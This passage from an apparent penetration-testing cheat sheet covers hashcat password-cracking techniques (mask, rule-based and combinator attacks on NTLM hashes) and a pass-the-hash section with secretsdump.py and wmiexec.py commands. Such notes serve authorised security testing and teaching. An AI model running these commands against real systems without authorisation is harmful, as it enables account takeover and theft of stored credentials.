 
Adding a number and a symbol

```shell
hashcat -a 6 -m 1000 hashes /usr/share/wordlists/rockyou.txt '?d?s'
```
This is using the character set below:

```shell
? | Charset
===+=========
l | abcdefghijklmnopqrstuvwxyz
u | ABCDEFGHIJKLMNOPQRSTUVWXYZ
d | 0123456789
h | 0123456789abcdef
H | 0123456789ABCDEF
s | !"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
a | ?l?u?d?s
b | 0x00 - 0xff
```

To combine the above two methods (add the year followed by a special symbol) we need to make use of hashcat's _stdout_ command.

```shell
hashcat -m 0 --stdout /usr/share/wordlists/rockyou.txt -r add-year.rule > modified_rockyou.txt
hashcat -a 6 -m 1000 hashes modified_rockyou.txt '?s'
```

Additional rules can be found on the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=rule_based_attack), however one that has proved very useful is [OneRuleToRuleThemAll](https://notsosecure.com/one-rule-to-rule-them-all) which can be accessed on Github [here](https://github.com/NotSoSecure/password_cracking_rules).

```shell
hashcat -a 0 -m 1000 hashes /usr/share/wordlists/rockyou.txt -r OneRuleToRuleThemAll.rule
```


We can also combine wordlists (far too long for 2 x rockyou!).

```shell
hashcat -a 1 -m 1000 hashes /usr/share/wordlists/rockyou.txt /usr/share/wordlists/rockyou.txt
```


## Pass The Hash

We can use the following programs and just pth;
```
secretsdump.py WORKGROUP/Administrator@10.1.1.1 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
Mimikatz
Metasploit (SMB_LOGIN module)
CrackMapExec
xfreerdp
evil-winrm
wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
smbclient
```
